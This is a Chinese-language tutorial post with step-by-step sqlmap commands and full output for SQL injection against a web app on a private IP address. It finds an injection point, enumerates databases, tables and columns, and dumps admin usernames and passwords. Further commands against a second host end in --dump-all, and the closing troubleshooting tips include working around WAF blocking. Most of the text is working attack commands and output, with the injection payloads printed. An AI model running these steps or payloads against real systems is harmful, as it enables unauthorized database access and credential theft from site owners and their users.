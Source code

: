 ```yaml
---
title: Net(5)—sqlmap使用实例
date: 2020-11-21
author: LM
---
```


## 1.第一步：查找注入点

```bash
sqlmap -u '192.168.3.59/article.php?id=1' #必须带上GET参数，否则sqlmap不知道如何注入
```

```bash
root@kali:~# sqlmap -u '192.168.3.59/article.php?id=1'
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.1.11#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 11:30:43

[11:30:43] [INFO] resuming back-end DBMS 'mysql' 
[11:30:43] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1817=1817

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=-2184 UNION ALL SELECT NULL,CONCAT(0x716b707071,0x517964767671746351415543654b4b794171664b78754b57434b70774c6b56434b6a46786a4d5a76,0x717a706271)-- BgjA
---
[11:30:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:30:43] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.3.59'

[*] shutting down at 11:30:43
```

**结果：**出现Parameter: id (GET)等内容，存在注入点

## 2.第二步：查找数据库

```bash
sqlmap -u '192.168.3.59/article.php?id=1' --dbs    #查找数据库
```

```bash
#........#
[11:37:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:37:43] [INFO] fetching database names
[11:37:43] [INFO] the SQL query used returns 2 entries
[11:37:43] [INFO] retrieved: information_schema
[11:37:43] [INFO] retrieved: website
available databases [2]:                                                       
[*] information_schema
[*] website
#......#
```

**结果：**注入发现两个数据库information_schema和website。information_schema主要是mysql数据库、表、列的信息，没有什么用处，website是网站的数据，对这个数据库进行注入。

## 3.第三步：注入

```bash
sqlmap -u '192.168.3.59/article.php?id=1' -D website --tables  #对website表注入
```

```bash
#。。。。。#
[11:41:14] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:41:14] [INFO] fetching tables for database: 'website'
[11:41:14] [INFO] the SQL query used returns 2 entries
[11:41:14] [INFO] retrieved: admin
[11:41:14] [INFO] retrieved: articles
Database: website                                                              
[2 tables]
+----------+
| admin    |
| articles |
+----------+
#..........#
```

**结果：**发现有两张表admin、articles，选择注入admin

## 4.第四步：读取数据

```bash
sqlmap -u '192.168.3.59/article.php?id=1' -D website -T admin --columns  #读取admin表中列
```

```bash
#..............#
[11:43:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:43:46] [INFO] fetching columns for table 'admin' in database 'website'
[11:43:47] [INFO] the SQL query used returns 3 entries
[11:43:47] [INFO] retrieved: "id","int(11)"
[11:43:47] [INFO] retrieved: "user","text"
[11:43:47] [INFO] retrieved: "pass","text"
Database: website                                                              
Table: admin
[3 columns]
+--------+---------+
| Column | Type    |
+--------+---------+
| user   | text    |
| id     | int(11) |
| pass   | text    |
+--------+---------+
#............#
```

**结果：**注入得到了三列user、id、pass，只要得到user和pass，就能得到密码(一般是网站后台管理的登录密码)

## 5.第五步：查看数据

```bash
sqlmap -u '192.168.3.59/article.php?id=1' -D website -T admin -C user,pass --dump #将uesr，pass数据输出
```

```bash
#..........#
[11:47:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:47:33] [INFO] fetching entries of column(s) '`user`, pass' for table 'admin' in database 'website'
[11:47:33] [INFO] the SQL query used returns 3 entries
[11:47:33] [INFO] retrieved: "test1","123456"
[11:47:33] [INFO] retrieved: "test2","123456"
[11:47:33] [INFO] retrieved: "test3","123456"
Database: website                                                              
Table: admin
[3 entries]
+--------+--------+
| user   | pass   |
+--------+--------+
| test1  | 123456 |
| test2  | 123456 |
| test3  | 123456 |
+--------+--------+
#............#
```

**结果：**可以查看到用户名与密码

## 6.尝试一下

```bash
sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl -T adminer --dump

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl -T adminer -columns 

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl --tables

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl --dump-all

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch --dbs

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch
```

## 7.常见报错

**Q：有时发现跑出的数据都是毫无意义的字符**

**A：解决方案**

- SQLMAP会提示你加–hex或者–no-cast，有时会有帮助
- 如果你用的是time-based注射，建议增加延时–time-sec等参数，即使你的网速比较好，但是服务器可能遇见各种奇怪环境
- 增加level的数值

**Q：显示unable to connect to the target url**

**A：解决方案**

第一个可能是 time-out 设置的太小，出现问题，再有可能就是 waf 直接把请求拦截掉了，因此得不到响应。有些 waf 比较友善，过滤后会提示“参数不合法”，但是也有些waf则直接把请求拦下来无提示导致应答超时，这样在测试时会消耗大量的时间等待响应，建议减少time-out进行检测，在跑数据时改回time-out

**Q：提示possible integer casting detected**

**A：解决方案**

如果是在手工测试，建议到这里可以停止了，节省时间。如果是在扫描器扫描的盲注，那么到这里坚决无视警告继续下去。



